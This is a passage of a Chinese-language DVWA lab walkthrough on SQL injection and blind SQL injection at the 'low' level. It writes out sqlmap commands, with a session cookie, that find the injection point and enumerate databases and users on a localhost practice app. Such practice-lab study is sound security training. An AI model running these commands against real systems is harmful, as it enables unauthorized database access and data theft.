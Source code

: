 添加`limit 1`限制输出数量，使用注释可以忽略掉  

MySQL 注释 `#` 或 `--` （空格）其他与low相同  

## SQL盲注  

用sqlmap做sql盲注  

### low  

没做任何防护  

- 判断注入点  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch  
```

![](/images/dvwa/17.png)  

- 获取数据库名称  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch --dbs  
```

- 获取当前连接的数据库  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch --current-db  
```

- 列出数据库中所有用户  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch --users  
```
